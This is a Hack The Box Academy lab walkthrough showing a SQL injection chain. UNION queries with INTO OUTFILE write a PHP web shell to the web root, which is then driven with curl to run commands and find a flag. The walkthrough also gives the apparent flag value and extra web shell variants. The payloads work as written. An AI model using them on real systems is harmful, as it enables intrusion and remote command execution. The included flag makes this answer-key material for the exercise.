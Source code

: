 ### HTB Academy Complete Walkthrough

#### Scenario: Complete File Writing Attack Chain

**Step 1: Verify Prerequisites**
```sql
-- 1. Already confirmed: FILE privilege ✅
-- 2. Check secure_file_priv
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
-- Result: (empty) ✅ No restrictions

-- 3. Test write permissions
cn' UNION SELECT 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
-- Verify: http://target/proof.txt shows content ✅
```

**Step 2: Deploy Web Shell**
```sql
-- Write clean PHP web shell
cn' UNION SELECT "","<?php system($_REQUEST[0]); ?>","","" into outfile '/var/www/html/shell.php'-- -
-- No SQL errors = Success ✅
```

**Step 3: Verify Web Shell**
```bash
# Test command execution
curl "http://target/shell.php?0=id"
# Expected: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Step 4: Find Flag (HTB Academy Question)**
```bash
# Search for flag files
curl "http://target/shell.php?0=find%20/%20-name%20%22*.txt%22%20-type%20f%202%3E/dev/null%20%7C%20grep%20-i%20flag"

# Read flag content
curl "http://target/shell.php?0=cat%20/path/to/flag.txt"
# Expected: d2b5b27ae688b6a0f1d21b7d3a0798cd
```

### Advanced Web Shell Variants

#### Enhanced Web Shells
```sql
-- Method 1: GET parameter version
cn' UNION SELECT "","<?php system($_GET['cmd']); ?>","","" into outfile '/var/www/html/cmd.php'-- -
-- Usage: http://target/cmd.php?cmd=id

-- Method 2: Full-featured shell
cn' UNION SELECT "",
'<?php 
if(isset($_REQUEST["cmd"])){ 
    echo "<pre>"; 
    $cmd = ($_REQUEST["cmd"]); 
    system($cmd); 
    echo "</pre>"; 
    die; 
}
?>',
"","" into outfile '/var/www/html/advanced.php'-- -
```
